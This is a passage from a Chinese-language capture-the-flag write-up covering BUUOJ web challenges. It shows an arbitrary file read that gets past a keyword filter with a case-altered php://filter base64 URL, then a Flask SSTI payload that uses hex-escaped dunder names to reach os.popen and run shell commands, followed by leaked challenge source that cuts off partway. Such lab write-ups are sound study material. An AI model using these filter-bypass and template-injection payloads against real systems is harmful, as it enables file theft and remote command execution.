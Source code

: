 ```python
            break
```

md5 解密后为 `gtfly123`

登录后右键源码一串 base64, 解码后内容为 `flag is in /flag`

admin.php 页面存在任意文件读取 (非文件包含)

限制了 `.php` `php://filter` `base64` 关键字, 通过大小写绕过

另外对于读取后返回文件内容也存在检测, 用 base64 绕过

```
http://41b2f226-548a-4a99-b535-5c53aee7dbd3.node4.buuoj.cn:81/admin.php?file=PHP://filter/convert.BASE64-encode/resource=/flag
```

## [pasecactf_2019]flask_ssti

简单 ssti, 过滤了 `_` `.` `'`

构造 payload 如下

```python
{{config["\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"]["\x5f\x5f\x69\x6e\x69\x74\x5f\x5f"]["\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f"]["os"]["popen"]("ls /")["read"]()}}
```

读取 /app/app.py

```python
import random
from flask import Flask, render_template_string, render_template, request
import os

app = Flask(__name__)
app.config['SECRET_KEY'] = 'folow @osminogka.ann on instagram =)'

#Tiaonmmn don't remember to remove this part on deploy so nobody will solve that hehe
'''
def encode(line, key, key2):
return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
'''

def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

file = open("/app/flag", "r")
flag = file.read()
flag = flag[:42]

app.config['flag'] = encode(flag, 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W3', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT')
flag = ""

os.remove("/app/flag")

nicknames = ['˜”*°★☆★_%s_★☆★°°*', '%s ~♡ⓛⓞⓥⓔ♡~', '%s Вêчңø в øĤлâйĤé', '♪ ♪ ♪ %s ♪ ♪ ♪ ', '[♥♥♥%s♥♥♥]', '%s, kOтO®Aя )(оТеЛ@ ©4@$tьЯ', '♔%s♔', '[♂+♂=♥]%s[♂+♂=♥]']

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
```